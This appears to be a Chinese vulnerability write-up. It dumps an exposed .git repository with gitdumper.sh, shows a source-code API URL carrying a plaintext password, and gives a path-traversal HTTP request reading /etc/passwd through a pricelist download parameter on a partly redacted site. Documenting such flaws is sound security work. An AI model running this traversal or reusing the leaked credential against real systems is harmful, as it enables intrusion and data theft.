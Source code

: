 爬取仓库的git文件  
```
./gitdumper.sh http://node4.anna.nssctf.cn:28221/.git/ githack
[*] Destination folder does not exist
[+] Creating githack/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
```  
  
通过审计git下载的文件挖到  
任意文件读取漏洞  
  
这个漏洞是我通过全局搜索https://+域名的一个方式找找有没有关于主域名向其他地方引用或者有关后台这类的信息并且我在扫描完的目录夹里面看到了PDF文件，所以也不能排除掉相关的下载URL。OK，我们继续，这里发现了一个接口，名为 actionCurlImage，用于向指定的 API 端点发送 POST 请求，并上传图像文件。代码中使用了 cURL 函数库来执行 HTTP 请求。就是这么一个动作，不管凭证是否失效，但是发现了一些问题：  
```
$url = 'https://XXXXXXXXXXXXX.com.ua/api/update_products?login=user&password=CLYbBvZkdx8Q8q6aL7DywvBmrq5BF6T8';
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5oWhQnt0R7y7t7EeX83NkBlKkQN9NuHwBj5Z7f8HhLqFDgaCugRRBmpQBSqQI3ESuhG54hwgutGg/640?wx_fmt=png&from=appmsg "")  
  
在开始之前我是在项目随后我借着往下看这代码，发现这个下载地址 Скачать прайс-лист翻译过来也就是下载价格列表。连接是这样的：  
```
https://XXXXXXX.com.ua/pricelist.php?file=20xxx_010001_1.xls
```  
  
整个下载过程也是特别的简陋，$priceLists = Yii::app()->params['priceLists']; 这行代码从 Yii 框架的全局配置参数中获取 priceLists 的值。  
  
$priceLists->name_part_1 这行代码访问 priceLists 对象的 name_part_1 属性，并将其作为查询参数 file 传递给 https://XXXXXXXXXXX.ua/pricelist.php 页面。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5oWhQnt0R7y7t7EeX83NkBch6micgrJ06TdhMib2Pw3UJwOhzGCAnDJ2OtFXgwMia1icNK9eh39Efq3A/640?wx_fmt=png&from=appmsg "")  
```
<li>
<?php $priceLists = Yii::app()->params['priceLists'];?>
<a href="https://XXXXXXXXXXXX.com.ua/pricelist.php?file=<?php echo $priceLists->name_part_1;?>">
<?php echo Yii::t('app', 'Скачать прайс-лист'); ?>
</a>
</li>
```  
  
尝试文件读取，这里尝试是向上遍历四个层级目录  
```
GET /pricelist.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: XXXXXXXXXXX.com.ua
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: 
Priority: u=0, i
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip
```  
  